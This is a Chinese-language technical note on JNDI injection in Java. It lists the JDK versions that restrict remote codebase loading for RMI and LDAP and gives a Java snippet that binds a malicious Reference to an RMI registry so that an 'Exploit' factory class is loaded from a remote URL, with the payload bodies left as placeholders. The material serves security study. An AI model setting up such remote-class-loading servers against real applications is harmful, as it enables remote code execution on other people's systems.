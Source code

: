 ## JNDI相关接口中JDK版本限制

RMI和JDAP都支持解析`JNDI Reference`对象

可以控制的JNDI服务端返回一个恶意的`Reference`对象

进而远程加载`Reference`远程加载Factory类
### LDAP

- jdk11.0.1、8u191、7u201、6u211及以上，LDAP的trustURLCodebase已经被限制
- 环境变量`com.sun.jndi.ldap.object.trustURLCodebase`默认为false
- 无法加载远程`Reference`类内的`ObjectFactory`并执行任意代码

### RMI


所有RMI服务注册的Service必须是实现`java.rmi.Remote`接口，比如

- `java.rmi.server.useCodebaseOnly`的值必需为false。
- jdk8u121 7u131 6u141版本开始，环境变量`com.sun.jndi.rmi.object.trustURLCodebase`默认值已改为了false
- `com.sun.jndi.rmi.registry.RegistryContext.decodeObject`当目标是`RemoteReference`
- trustURLCodebase配置限制，如果该值为false(不信任s远程引用对象)一样无法调用远程的引用对象
- rmi加载远程的字节码不会执行成功

### JDK各个版本的利用和绕过

### jdk8u191后的利用方式


#### JNDI工厂模式



JNDI还支持工厂模式，传递的对象均实现`javax.naming.Reference`接口

- javax.naming.Reference属性有：
  - `String className;` 引用对象指向的全类名
  - `Vector<RefAddr> addrs;` 
  - `String classFactory;` 目标`javax.naming.spi.ObjectFactory`类名，调用`Factory#getObjectInstance`动态生成ClassName的对象
  - `String classFactoryLocation;` JNDI远程恶意class文件地址，受RMI和LDAP的变量trustURLCodebase限制
  - 通过RMI服务返回Reference，客户端处理Reference时回到指定的`Codebase`或`classFactoryLocation`远程地址加载Factory类

绑定Reference对象指向Exploit对象

```java
  Registry registry = LocateRegistry.createRegistry(1099);
  Reference referenceExploit = new Reference("org.example.Exploit", "org.example.Exploit", "http://127.0.0.1:8000/");
  ReferenceWrapper refObjWrapper = new ReferenceWrapper(referenceExploit);
  registry.bind("Exploit", refObjWrapper);

  //远程自定义ObjectFactory
  public class org.example.Exploit implements ObjectFactory{
    static {
      Exploit code ...
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable environment )throws Exception {
      Exploit code ...
    }
  }
```
